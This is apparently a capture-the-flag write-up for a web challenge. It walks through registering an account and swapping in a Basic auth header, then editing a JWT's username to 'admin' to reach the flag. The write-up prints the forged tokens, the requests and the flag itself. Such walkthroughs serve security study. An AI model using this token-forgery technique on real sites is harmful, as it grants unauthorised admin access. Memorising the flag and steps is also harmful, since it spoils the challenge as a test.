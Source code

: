 1. When you visit website, it will ask you to register with username and password as param
2. Register using `GET /register?username=test&password=test`
3. Then in the `/` main route, there is `Authorization` in header which is base64 encoded string of `admin:admin`. Change that string to our username and password that is `test:test` and then encode it. Then add that `Authorization` header: `Authorization: Basic dGVzdDp0ZXN0`
4. You will get JWT token and `Info: check /info` in header, which is our next clue
5. Send get request to `/info`, it will send this as response `check the /validate route; use token as the query param`
6. Use your jwt token as param, like this `GET /validate?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InRlc3QiLCJpYXQiOjE2ODA5ODA3NDJ9.tPGy3BDAQPxod81IrzAscD6TlPSRGU1WCIxJlfJx6qo`. You will see `only the admin account has permissions to access the flag` in the response
7. That means, we have to change the token to admin using jwt.io. Change username to `admin` and add that changed token to request. `GET /validate?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjgwOTgwNzQyfQ.g98kZbP1wal_VjEcs-4PH0FaxK8iZj_Mu6iQF8zd5LE`
8. And boom, we will get our flag.

Flag: `bucket{1_l0v3_jwt!!!1!!!!1!!!!!1111!}`
